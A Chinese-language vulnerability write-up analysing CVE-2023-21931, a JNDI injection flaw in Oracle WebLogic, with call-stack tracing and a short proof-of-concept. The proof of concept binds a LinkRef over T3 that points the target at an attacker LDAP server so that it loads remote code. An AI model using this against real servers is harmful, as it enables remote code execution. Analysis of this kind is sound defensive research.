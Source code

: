 

# CVE-2023-21931 Weblogic JNDI 注入漏洞原理分析及漏洞利用 - 先知社区

CVE-2023-21931 Weblogic JNDI 注入漏洞原理分析及漏洞利用



## 影响

Oracle WebLogic Server product of Oracle Fusion Middleware (component: Core)

*   12.2.1.3.0
    
*   12.2.1.4.0
    
*   14.1.1.0.0
    

## 原理

根据[nvd](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)的描述

能够轻易的通过发送 T3 协议给 weblogic 服务造成 JNDI 的注入

这里的漏洞点和之前的 CVE-2023-21839 的成因感觉上是很像的，CVE-2023-21839 主要是因为 weblogic 的 t3 / iiop 协议支持远程绑定对象 bind / rebind 到服务端，之后在调用`lookup`的过程中，存在有参数可控的`lookup`的调用，也即是`weblogic.deployment.jms.ForeignOpaqueReference#getReferent`中代码

[![](assets/1701612511-0be5d7f90fd7bd9badcf95e6486f15a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192339-a1ed6f98-dea4-1.png)

而对于昨天公开的 CVE-2023-21931 这个漏洞，同样和上一次 CVE 一样，是在 lookup 的调用过程中存在有一个可控的 lookup 方法调用造成了一个 JNDI 注入，即是通过`LinkRef#getLinkName`方法来获取 ldap 查询串，具体的分析见下文

## 分析

前面提到了这里主要的漏洞成因是在进行 lookup 查询的过程中造成的问题

动态调试一下

给个调用栈：

```bash
lookup:417, InitialContext (javax.naming)
getObjectInstance:98, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```

从调用栈中很明显，weblogic 主要是通过使用`BasicServerRef#invoke`来处理传递过来的数据

[![](assets/1701612511-8d986de5ee880bac16faf4a26540b978.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192530-e463654e-dea4-1.png)

对消息进行了一些处理之后，再次将请求传递给`RootNamingNode_WLSkel#invoke`方法继续处理

[![](assets/1701612511-8c7904cbb1b5a97849e26922bad915f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192536-e8270e6a-dea4-1.png)

开始就对 var1 进行不同的处理，经过`BasicServerRef#invoke`的处理，这时候的`var1`为 14，我们跟进`case 14`的具体实现

[![](assets/1701612511-34829a929b1a0599f164cd9896ca236a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192542-eb641096-dea4-1.png)

对接收到的请求进行消息的提取之后继续传递到`BasicNamingNode#lookup`

[![](assets/1701612511-5ffc6be0e31305e9042e485f577449c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192548-eef08212-dea4-1.png)

此时我们通过`getRest`返回的值为空，选择调用`resolveObject`方法，并传入我们自定义的数据进行处理

[![](assets/1701612511-9b82b7f8e192fded7a392031877e4929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192553-f25464b4-dea4-1.png)

之后就分别是`BasicNamingNode / ServerNamingNode`的`resolveObject`方法的调用

[![](assets/1701612511-a349745968a58cb5d796237d1ea2b70f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192602-f76080fa-dea4-1.png)

最后会通过利用`WLNamingManager#getObjectInstance`获取我们的对象实例

这两个 CVE 主要就是这里了

[![](assets/1701612511-c613eb46d4fd46854ee51cb7e39c6291.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192609-fb5a0c1c-dea4-1.png)

分别是上面两个箭头所示位置

这里主要判断这个 CVE，如果我们 bind 的对象是一个`LinkRef`对象，将会进入 else if 语句中，在这其中，lookup 方法的参数是通过调用`LinkRef#getLinkName`方法来进行获取的

[![](assets/1701612511-953f000d11efc72169d9525984281e5e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192616-ffffc978-dea4-1.png)

很简单的可以通过利用构造方法传入一个 ldap 查询连接来对 linkName 赋值

写一个 demo 证明一下

[![](assets/1701612511-7ee00540bf09b4b95584b3c12ce09172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192631-08657c8e-dea5-1.png)

[![](assets/1701612511-a28ce6cd39e907704671b9041c6398d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192637-0c842720-dea5-1.png)

所以，目的现在就很明确了

## POC 构造

我们之后进行 POC 的构造

对于漏洞利用的构造首先就是需要将恶意的对象也即是`LinkRef`绑定到服务端中

首先创建一个用来绑定远程对象的 InitialContext

```bash
String url = "t3://192.168.153.136:7001"; // 目标机器
Hashtable env1 = new Hashtable();
env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
env1.put(Context.PROVIDER_URL, url); // 目标
InitialContext c = new InitialContext(env1);
```

之后就是将我们的恶意`LinkRef`对象绑定

```bash
LinkRef linkRef = new LinkRef("ldap://192.168.153.1:1389/5irv7b");
c.rebind("sectest", linkRef);
```

最后只需要进行`lookup`查询调用就能够进行 JNDI 注入攻击

验证一下

## 漏洞利用

运行 JNDI 注入工具

[![](assets/1701612511-4b1eb9a79303e453421fb1bc2a411656.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192732-2cdef43c-dea5-1.png)

漏洞环境中不存在 2023 文件

[![](assets/1701612511-9a96b7cecc29c0b6ed85fd530a7fd1f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192738-30c67886-dea5-1.png)

运行漏洞利用程序

[![](assets/1701612511-434905c6a8b5c938d476ba4c5a789ce6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192744-33fc0782-dea5-1.png)

[![](assets/1701612511-46d9f3ba01c290c0eebce9b78e81fcd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192749-372dcbde-dea5-1.png)

成功写入了一个空文件

## Ref

[https://xz.aliyun.com/t/12297](https://xz.aliyun.com/t/12297)

[https://nvd.nist.gov/vuln/detail/CVE-2023-21931](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)
